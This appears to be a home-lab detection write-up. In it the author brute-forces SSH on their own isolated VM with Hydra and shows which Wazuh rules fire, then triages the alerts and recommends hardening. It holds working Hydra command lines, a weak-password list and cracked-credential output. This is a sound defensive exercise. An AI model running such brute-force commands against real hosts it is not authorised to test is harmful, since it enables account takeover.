


# SSH Brute Force Attack (T1110)

## Objective

Simulate an SSH brute-force attack against a lab host and verify that Wazuh
detects it, to confirm the detection pipeline works end to end (agent →
manager → indexer → dashboard) and to document what the attack looks like
from both the attacker and defender side.

## Lab setup and scope

- **Attacker:** Parrot OS host, `192.168.56.1` (host-only network)
- **Target:** Ubuntu 22.04 VM `labvm`, `192.168.56.101`, Wazuh agent v4.14.8
- **SIEM:** Wazuh manager/indexer/dashboard v4.14.8 running on the Parrot host
- **Network:** isolated VirtualBox host-only network (`192.168.56.0/24`), no
  traffic left the laptop
- **Tool:** Hydra v9.5

All testing was performed against a VM I own, on a private network with no
route to the internet or to other devices on my home network.

## Attack steps

A 14-word password list was generated:

```bash
printf '%s\n' 123456 password admin letmein qwerty welcome monkey dragon \
  master login abc123 iloveyou football shadow > ~/lab-words.txt
```

Two Hydra runs were executed against the VM's SSH service (port 22):

```bash
# Run 1: username that does not exist on the target
hydra -l labtest -P ~/lab-words.txt -t 4 ssh://192.168.56.101

# Run 2: a real, pre-existing account on the target
hydra -l cisco -P ~/lab-words.txt -t 4 ssh://192.168.56.101
```

**Run 1 result:** 14/14 attempts failed (expected — `labtest` is not a real
account).

**Run 2 result:** password cracked in 2 seconds — `cisco` / `password`.

```
[22][ssh] host: 192.168.56.101   login: cisco   password: password
1 of 1 target successfully completed, 1 valid password found
```

## Telemetry observed

Both runs generated `sshd` log entries on the VM, collected by the Wazuh
agent and forwarded to the manager. Example raw log lines:

```
Invalid user labtest from 192.168.56.1 port 45960
Failed password for invalid user labtest from 192.168.56.1 port 45994 ssh2
Accepted password for cisco from 192.168.56.1 port 60908 ssh2
```

## Detection

Three distinct rules fired across the two runs:

| Rule ID | Level | Description | MITRE technique | Fired |
|---|---|---|---|---|
| 5710 | 5 | sshd: Attempt to login using a non-existent user | T1110.001, T1021.004 | 19x |
| 5712 | 10 | sshd: brute force trying to get access to the system. Non existent user | T1110 | 1x (aggregated, frequency 8) |
| 40112 | 12 | Multiple authentication failures followed by a success | T1110, T1078 | 1x |

Key finding: **a single brute-force attack produces different rules
depending on whether the targeted username exists.** An invalid-username
attack (run 1) only ever reaches level 10 (brute force against a
non-existent account) — it can never show "followed by a success" because
there is no valid account to compromise. A valid-username attack with a
weak password (run 2) escalates to rule 40112 at level 12, because the
failures are followed by an actual successful login — the compromise is
confirmed, not just attempted.

## Triage verdict

**True positive — confirmed compromise (simulated).** Rule 40112 (level 12,
high severity) is the alert that would require immediate response in a
real environment: a brute-force attack that *succeeded*. The `labtest`
attempts (rules 5710/5712) are lower-severity reconnaissance/noise by
comparison — the account never existed, so there was no real risk from that
specific run, but repeated non-existent-user attempts are still a useful
early indicator that an attacker is probing the host.

## Response recommendation

- Rotate the `cisco` account password immediately — `password` is a
  dictionary word and was cracked in under 3 seconds.
- Disable SSH password authentication in favor of key-based auth
  (`PasswordAuthentication no` in `sshd_config`).
- Rate-limit or temporarily block source IPs after N failed attempts
  (e.g., via `fail2ban` or a firewall rule) to slow down brute-force
  attempts before they reach rule 40112.
- Review all accounts on internet-facing or sensitive hosts for weak
  passwords using the same method (lab-only, with authorization).

## Evidence


*Full detail of rule 40112 — MITRE tactic/technique fields, rule level, GDPR/PCI/HIPAA mapping.*


*Event list showing repeated rule 5710 (non-existent user) hits alongside rule 40112 for comparison.*

## Tuning/hardening notes

- Rule 5712 aggregates multiple 5710 events (`frequency: 8`) into one
  higher-severity alert — this is Wazuh's built-in frequency-based rule
  correlation, not a separate detection. Worth remembering when counting
  "how many attacks happened" from raw alert counts alone.
- No alert fired for the Hydra network connection itself (only for the
  SSH authentication events) — this agent-based setup has no visibility
  into the network scan/connection layer. A network IDS (Suricata/Snort)
  would close this gap; noted as a follow-up for this lab.
